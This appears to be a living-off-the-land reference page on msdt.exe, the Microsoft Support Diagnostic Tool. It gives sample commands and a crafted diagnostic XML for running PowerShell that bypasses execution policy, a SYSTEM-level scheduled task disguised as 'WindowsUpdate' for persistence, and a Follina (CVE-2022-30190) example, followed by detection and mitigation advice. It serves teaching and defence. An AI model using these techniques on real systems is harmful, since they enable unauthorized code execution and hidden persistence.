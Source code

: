# msdt.exe
## What is it?
*```msdt.exe``` (Microsoft Support Diagnostic Tool) is a built-in **Windows troubleshooting utility** that helps users diagnose and fix issues with the OS.
It can **execute scripts**, **commands**, **and PowerShell scripts** via troubleshooting packs (```.diagcab``` files).
Due to its legitimate function and trust level in Windows, attackers exploit it for:*
- **Executing malicious code while bypassing security tools**
- **Loading remote payloads through ```.diagcab``` files**
- **Achieving persistence on a compromised system**

## Legitimate Usage
*Despite its potential for abuse, ```msdt.exe``` is a legitimate Windows tool used for:*
- **Troubleshooting Windows Issues** → Diagnosing network, performance, and hardware problems
- **Running Predefined Scripts** → Automating fixes for common system issues
- **Remote Assistance** → IT admins use it to run diagnostics and gather logs
*Since ```msdt.exe``` is trusted and signed by Microsoft, **it is often whitelisted by security solutions**, making it a valuable tool for attackers**.*

## How to abuse it
- **Whitelisted & Trusted Process** → Bypasses application control and security monitoring.
- **Can Execute Arbitrary Commands** → Used to launch PowerShell, CMD, or scripts.
- **Remote Code Execution (RCE) Potential** → Can fetch and run payloads from remote sources.
- **Stealthy Execution** → Runs in a non-suspicious context, avoiding security alerts.

## Example Attacks
### 1. Remote Code Execution via ```msdt.exe``` (Follina Exploit - CVE-2022-30190)
*The **Follina vulnerability** (CVE-2022-30190) allows attackers to execute malicious PowerShell commands via ```msdt.exe``` using specially crafted Office documents*.

**Using msdt.exe to Execute Malicious Code via a Malformed URL**
```
msdt.exe -id PCWDiagnostic -skip force -path "C:\malicious\payload.xml"
```
*Executes a malicious script via MSDT’s diagnostic tool, bypassing security controls.*

### 2. LOLBin Execution - Running Commands via Troubleshooting Packs
*Attackers can use ```msdt.exe``` to execute arbitrary commands by crafting a malicious **troubleshooting pack (```.diagcab``` file)**.*

**Creating a Malicious ```.diagcab``` to Execute PowerShell**

1️⃣ **Create a diagnostic script (```script.ps1```)**
```
Write-Output "Malicious Code Executed"
```

2️⃣ **Create an ```.xml``` configuration file (```diagnostic.xml```) to execute the script**
```
<?xml version="1.0"?>
<Package>
    <Command>
        <Run Path="powershell.exe" Argument="-ExecutionPolicy Bypass -File C:\malicious\script.ps1"/>
    </Command>
</Package>
```
3️⃣ **Execute via ```msdt.exe```**
```
msdt.exe -path "C:\malicious\diagnostic.xml" -id MaintenanceDiagnostic
```
*Executes PowerShell through MSDT without triggering standard AV detections.*

### 3. Persistence via msdt.exe and Startup Tasks
*Attackers use ```msdt.exe``` to execute malicious payloads persistently on reboot.*

**Setting Up Persistent Execution**
```
schtasks /create /tn "WindowsUpdate" /tr "msdt.exe -path C:\malicious\diagnostic.xml -id MaintenanceDiagnostic" /sc onlogon /ru SYSTEM
```
*Effect: Creates a scheduled task that runs ```msdt.exe``` at every system login.*

# Detection & Mitigation
## Detection Methods
**Monitor Execution of ```msdt.exe```**
- *Unusual child processes like ```powershell.exe```, ```cmd.exe```, or ```regsvr32.exe```*
- *Event ID 4688 (```Process Creation``` logs) with suspicious parameters*

**Detect ```.diagcab``` File Usage**
- *Monitor file access logs for **unexpected troubleshooting packs***

**Watch for Registry Changes**
- *Look for modifications to ```ms-msdt``` protocol handler (```HKEY_CLASSES_ROOT\ms-msdt```)*

# Mitigation Strategies
- **Disable ```msdt.exe``` Protocol Handler** → Prevents exploitation of ```ms-msdt``` vulnerabilities
- **Restrict Execution via Application Control** → Use **AppLocker** or **WDAC** to block ```msdt.exe```
- **Monitor Event Logs for Suspicious Execution** → Set up alerts for ```msdt.exe``` **running with unusual parameters**
- **Keep Windows Updated** → Ensure patches for **CVE-2022-30190 (Follina)** are applied
